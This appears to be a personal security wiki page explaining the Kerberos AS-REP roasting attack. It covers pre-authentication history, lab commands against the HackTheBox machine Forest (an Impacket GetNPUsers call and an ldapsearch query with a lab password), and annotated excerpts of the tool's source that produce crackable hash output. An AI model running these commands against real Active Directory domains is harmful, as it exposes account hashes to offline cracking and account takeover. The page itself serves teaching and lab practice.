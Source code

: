 # AS-REP Roasting Attack

## Pre-authentication

### History

The original Kerberos 4 protocol was susceptible to _offline dictionary and brute-force attacks_, since the KDC happily provides a ticket encrypted with the principals’ secret key to any requestor.

### Kerberos V5

[Kerberos 5](./#as-exchange) introduces _pre-authentication_ which requires that requestors prove their identity before the KDC will issue a ticket for a particular principal.

### Implementation

There are [several types of pre-authentication](https://datatracker.ietf.org/doc/html/rfc4120#section-7.5.2) defined by the Kerberos.

However, only the encrypted timestamp (PA-ENC-TIMESTAMP) pre-authentication method is commonly implemented.

{% embed url="https://learning.oreilly.com/library/view/kerberos-the-definitive/0596004036/" %}

### AS-REQ Review

Pre-authentication is controlled by KDC policy.

1. If a client attempts to request initial tickets through the AS exchange, but the pre-authentication is enabled,
2. then the KDC will send a `KRB_ERROR` message which tells the client that pre-authentication is required instead of an AS\_REP.
3. The client append the required pre-authentication data to its AS\_REQ message this time.
4. If the pre-authentication data is accepted, the KDC responds with an AS reply including the TGT ticket. Otherwise, the KDC will response another KRB\_ERROR message that indicates pre-authentication failed.

## ASREPRoasting Attack

## Tools

### Impacket

We use the script [`GetNPUsers.py`](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py) to conduct the attack, for example in the HackTheBox lab machine [`Forest`](../../../hackthebox/windows/active-directory/forest.md), we use this script to get the TGT ticket for the user `svc-alfresco`:

```bash
$ impacket-GetNPUsers htb.local/svc-alfresco -no-pass -format hashcat
```

After parsing the arguments, the script initializes the class `GetUserNoPreAuth` with domain account credentials:

```python
    try:
        executer = GetUserNoPreAuth(username, password, domain, options)
        executer.run()
```

If a file of user names is provided, the class call its method `reques_users_file_TGTs` to get the TGT ticket for each account name if the pre-authentication is disabled.

```python
    def run(self):
        if self.__usersFile:
            self.request_users_file_TGTs()
            return
```

If `doKerberos` is set _or_ `no_pass` is false, the script will do the LDAP search to find domain accounts with property `Do not require Kerberos preauthentication` set`UF_DONT_REQUIRE_PREAUTH`:

```python
        # Connect to LDAP
        try:
            ldapConnection = ldap.LDAPConnection('ldap://%s' % self.__target, self.baseDN, self.__kdcIP)
...
        # Building the search filter
        searchFilter = "(&(UserAccountControl:1.2.840.113556.1.4.803:=%d)" \
                       "(!(UserAccountControl:1.2.840.113556.1.4.803:=%d))(!(objectCategory=computer)))" % \
                       (UF_DONT_REQUIRE_PREAUTH, UF_ACCOUNTDISABLE)

        try:
            logging.debug('Search Filter=%s' % searchFilter)
            resp = ldapConnection.search(searchFilter=searchFilter,
                                         attributes=['sAMAccountName',
                                                     'pwdLastSet', 'MemberOf', 'userAccountControl', 'lastLogon'],
                                         sizeLimit=999)
```

Also, we can use this filter with the command `ldapsearch` to get the same results:

{% code overflow="wrap" %}
```bash
$ ldapsearch -H ldap://forest -x -b 'dc=htb,dc=local' -D svc-alfresco@htb.local -w s3rvice '(&(UserAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2))(!(objectCategory=computer)))'
```
{% endcode %}

{% embed url="https://learn.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties" %}

Either way, the class will call its method `getTGT` to try to get the TGT ticket for an account.

First, the method prepare the AS\_REQ message:

```python
    def getTGT(self, userName, requestPAC=True):
...
        asReq = AS_REQ()
...
        # from pyasn1.codec.der import decoder, encoder
        message = encoder.encode(asReq)
```

Then it sends the `AS_REQ`, receives, and parses the \`AS\_REP\` response:

```python
        try:
            r = sendReceive(message, domain, self.__kdcIP)
...
        # This should be the PREAUTH_FAILED packet or the actual TGT if the target principal has the
        # 'Do not require Kerberos preauthentication' set
        try:
            asRep = decoder.decode(r, asn1Spec=KRB_ERROR())[0]
```

Finally, the script outputs the TGT ticket:

```python
        if self.__outputFormat == 'john':
            # Let's output the TGT enc-part/cipher in John format, in case somebody wants to use it.
            return '$krb5asrep$%s@%s:%s$%s' % (clientName, domain,
                                               hexlify(asRep['enc-part']['cipher'].asOctets()[:16]).decode(),
                                               hexlify(asRep['enc-part']['cipher'].asOctets()[16:]).decode())
        else:
            # Let's output the TGT enc-part/cipher in Hashcat format, in case somebody wants to use it.
            return '$krb5asrep$%d$%s@%s:%s$%s' % ( asRep['enc-part']['etype'], clientName, domain,
                                                   hexlify(asRep['enc-part']['cipher'].asOctets()[:16]).decode(),
                                                   hexlify(asRep['enc-part']['cipher'].asOctets()[16:]).decode())
```

## Mitigation

